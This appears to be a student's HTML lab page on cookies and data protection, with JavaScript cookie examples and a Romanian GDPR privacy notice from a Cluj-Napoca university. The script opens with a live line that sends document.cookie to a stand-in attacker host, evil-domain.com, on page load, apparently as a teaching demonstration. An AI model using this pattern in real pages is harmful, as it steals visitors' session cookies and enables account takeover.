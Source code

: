 <script> 
  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=oeschger";
document.cookie = "favorite_food=tripe";
function alertCookie() {
  alert(document.cookie);
} 
document.cookie = "test1=HELLO World";
document.cookie = "test2=Lab MDCP";

const cookieValue = document.cookie
  .split('; ')
  .find(row => row.startsWith('test2='))
  .split('=')[1];

function alertCookieValue() {
  alert(cookieValue);
}
function doOnce() {
  if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) {
    alert("Do something here!");
    document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT";
  }
}
function resetOnce() {
  document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
}

//ES5

if (document.cookie.split(';').some(function(item) {
    return item.indexOf('reader=1') >= 0
})) {
    console.log('The cookie "reader" has "1" for value')
}

//ES2016

if (document.cookie.split(';').some((item) => item.includes('reader=1'))) {
    console.log('The cookie "reader" has "1" for value')
}
</script>
  <body>
  Bun venit pe pagina cu jucarii!<br>
  <button onclick="alertCookie()">Show cookies</button><br>
  <button onclick="alertCookieValue()">Show cookie value</button><br>
  <button onclick="doOnce()">Only do something once</button><br>
  <button onclick="resetOnce()">Reset only one cookie</button><br>
Negru Denisa
</body>

  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/negru_va_denisa_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B2E948193-BC37-4C82-A87C-E6A6A4840894%7D&file=Task2.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1622837745557&ct=1622837745557&wdPreviousSession=e200e115-397c-43f1-b585-e3eb3aa0a9c9&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD&cid=ae19853d-df19-4274-98ca-907ebdf4f284">Click to see DPIA </a>

<p>
  Universitatea Tehnică Cluj-Napoca, cu sediul in Cluj-Napoca, pe Strada Memorandumului 28, 400114, reprezentată legal prin Rector, Prof. univ. dr. ing. Vasile ŢOPA vă prelucrează datele cu caracter personal.
</p>
<p>
În art. 4 pct. 1 din Regulamentul nr. 679/2016 se găsește definiția datelor cu caracter personal care stipulează orice informații privind o persoană fizică identificată sau identificabilă („persoana vizată”); o persoană fizică identificabilă este o persoană care poate fi identificată, direct sau indirect, în special prin referire la un anumit element de identificare, cum ar fi: 
</p>
<p>
    - nume, prenume;
</p>
<p>
    - CNP;
</p>
<p>
    - Adresă;
</p>
<p>
    - E-mail;
</p>
<p>
    - IBAN;
</p>
<p>
    - Adeverință medicală.
</p>
<p>
Vă informăm că datorită temeiului legal aplicabil în România și a relației contractuale în care vă aflați cu Universitatea Tehnică din Cluj-Napoca, aceasta procesează pe perioada relațiilor contractuale următoarele categorii de informații personale care vă aparțin:
</p>
<p>
- date de identificare (certificat de naștere, carte de identitate, etc.);
</p>
<p>
- date financiare (număr de cont, venituri realizate la nivelul instituției, situații financiare personale, etc.); 
</p>
<p>
- caracteristici personale (vârsta, locul nașterii, naționalitate, stare civilă, etc.) necesare pentru stabilirea de drepturi cuvenite;  opinii privind starea de sănătate, componența familiei (numărul de copii și date de identificare a acestora, stare civilă, etc. în baza cărora se fac justificările de calcul a unor drepturi cuvenite sau se stabilesc alte drepturi conform legilor și normativelor aplicabile pentru cei care optează sau solicită aceste drepturi); informații privind parcursul academic, calificările deținute, istoricul profesional, calitatea de membru în organizații profesionale, publicații, date de contact necesare pentru derularea curentă a activității educaționale și de cercetare specifice universității.
Menționăm ca reținerea datelor cu caracter personal în instituție are rolul de a putea furniza către titularul datelor, la cerere, informații privind perioada de școlarizare petrecută în cadrul instituției și după finalizarea acestei perioade de instruire și se supune suplimentar temeiului legal aplicabil în România furnizat de OM Nr. 657 / 24.11.2014 privind regimul actelor de studii în sistemul de învățământ superior cu completările ulterioare.
Datele deținute la nivelul sistemelor informatice din Universitatea Tehnică din Cluj-Napoca nu sunt comunicate unor terțe părți decât în cazul în care există solicitări venite conform unui temei legal furnizat de instituții ale statului român sau pentru îndeplinirea obligațiilor contractuale dintre dumneavoastră ca student / cursant și Universitatea Tehnică din Cluj-Napoca ca furnizor de servicii educaționale.
</p>
<p>
Conform Regulamentului UE nr. 679/2016 persoanele vizate beneficiază de următoarele drepturi:
</p>
<p>
•	dreptul de acces cu titlul gratuit la datele personale prelucrate de universitate;
</p>
<p>
•	dreptul la rectificare şi dreptul la ştergerea datelor – fără a contraveni obligaţiilor legale ale universităţii;
</p>
<p>
•	dreptul de restricţionare a prelucrării datelor – fără a contraveni obligaţiilor legale ale universităţii;
</p>
<p>
•	dreptul la portabilitatea datelor;
</p>
<p>
•	dreptul de a retrage oricând consimţământul în cazul în care prelucrarea se bazează pe consimţământ.
</p>
<p>
Perioada de stocare şi prelucrare a datelor cu caracter personal este determinată de prevederile legale în vigoare. La sfârşitul perioadei de stocare şi prelucrare a datelor cu caracter personal, conform raporturilor juridice sau scopurilor precizate în declarațiile de consimțământ completate de persoanele vizate, datele cu caracter personal vor fi şterse din procesele curente şi vor fi arhivate conform legislaţiei naţionale.
</p>
<p>
		    În cazul mobilității la o universitate din UK, instituția de primire trebuie să elibereze studentului foaia matricolă e confirmă parcurgerea programului de studii precum și rezultatele acestuia. Totodată, instituția de trimitere trebuie să acorde recunoaștere academică tuturor activităților finalizate în timpul mobilității conform contractului de studiu, prin acordarea creditelor transferabile sau a unui sistem echivalent.
</p>
<p>
		    Datorită faptului că perioada de mobilitate va fi inclusă și în suplimentul de diplomă, Universitatea Tehnică va avea dreptul să acceseze informațiile despre student din perioada mobilității.   
  
  </p>
  

